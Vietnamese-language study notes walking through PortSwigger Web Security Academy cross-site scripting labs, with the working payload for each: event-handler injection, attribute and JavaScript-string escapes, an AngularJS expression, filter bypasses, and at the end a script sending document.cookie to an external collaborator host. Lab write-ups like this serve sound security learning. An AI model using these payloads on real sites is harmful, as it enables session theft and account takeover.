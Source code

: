 1. https://portswigger.net/web-security/cross-site-scripting/reflected/lab-html-context-nothing-encoded

2. https://portswigger.net/web-security/cross-site-scripting/stored/lab-html-context-nothing-encoded

3. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink\
Dùng `document.write` để input đầu vào, payload: `"><svg onload=alert(1)>`

4. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-innerhtml-sink\
Dùng `innerHTML` để input đầu vào, payload: `<img src=1 onerror=alert(1)>`

5. DOM location.search: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-href-attribute-sink\
Dùng `href` để gắn url cho `returnPath`:\
![alt text](image-1.png)\
![alt text](image-2.png)

6. DOM location.hash: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-jquery-selector-hash-change-event\
![alt text](image-3.png)\
`<iframe src="https://0a4e0024041585a782ae9cac005d0018.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`

7. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded\
Bị encode `<>` nên ta không tìm cách thoát ra tag mà sẽ thêm vào attribute:\
Payload: `"onmouseover="alert(1)`

8. Store XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-href-attribute-double-quotes-html-encoded\
Vì bị encode `"` nên ta không thoát `href` mà sẽ thay bằng 1 cách để thực hiện javascript ngay trên URL:\
Payload: `javascript:alert(1)`

9. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-string-angle-brackets-html-encoded\
![alt text](image-4.png)\
Ta thấy input bị encode khi đưa vào HTML nhưng ta để ý nó lại đưa trực tiếp vào ` var searchTerms = 'abc';` nên ta tiêm thằng vào đây để thực hiện JS: `'; alert(1); '`

10. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-document-write-sink-inside-select-element\
Nhập ngẫu nhiên input ta thấy hiển thị input ở dưới:\
![alt text](image-5.png)\
Đọc code ta thấy, nếu chọn trong các store có sẵn nó sẽ hiển thị, hoặc cũng có thể nhập store đầu vào:\
![alt text](image-6.png)\
Payload: `</select><img src=1 onerror=alert(1)>`

11. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression\
Ở đây ta không thể dùng `<>` nên ta nghĩ đến 1 phương án khác, khi dùng 1 framework sẽ có 1 cách thực thi Javascript khác nhau, ở AngularJS có `ng-app` và ta sẽ dùng payload: `{{$on.constructor('alert(1)')()}}`

12. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-reflected\
Đọc code ta thấy file `resources/js/searchResults.js` dùng eval để xử lí đầu vào search:\
![alt text](image-7.png)\
Với input `"abc"` hàm đã xử lý trả về JSON và dùng `\` để thoát dấu ngoặc kép `"`:\
![alt text](image-8.png)\
Nhưng lại không thoát dấu `\` nên ta có thể sử dụng payload: `\"-alert(1)}//`\
![alt text](image-9.png)

Giair thích: với dấu `"` hệ thống sẽ chèn `\` vào trước, và vì đầu vào ta có 1 dấu `\` nên 2 dấu `\\` cạnh nhau không dùng để loại bỏ `"` nữa nên đã có thể đóng được đối tượng search, từ đó ta thêm hàm `alert()` và rồi comment `//` đoạn cuối.

13. DOM XSS: https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-dom-xss-stored\
Ở phần hiển thị các comment ta thấy file: `/resources/js/loadCommentsWithVulnerableEscapeHtml.js`\
![alt text](image-10.png)\
File này dùng hàm `replace` để xóa các kí tự `<` và `>` nhưng lỗ hổng của hàm này là chỉ replace các kí tự đầu tiên được tìm kiếm nên ta có payload: `<><img src=x onerror=alert(1)>`

14. Reflected XSS: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked\



Lab: https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-stealing-cookies\
```js
<script>
    fetch('https://ebty5bf18db9t8dai0aew74c83eu2lqa.oastify.com', {
    method: 'POST',
    mode: 'no-cors',
    body:document.cookie
    });
</script>
```


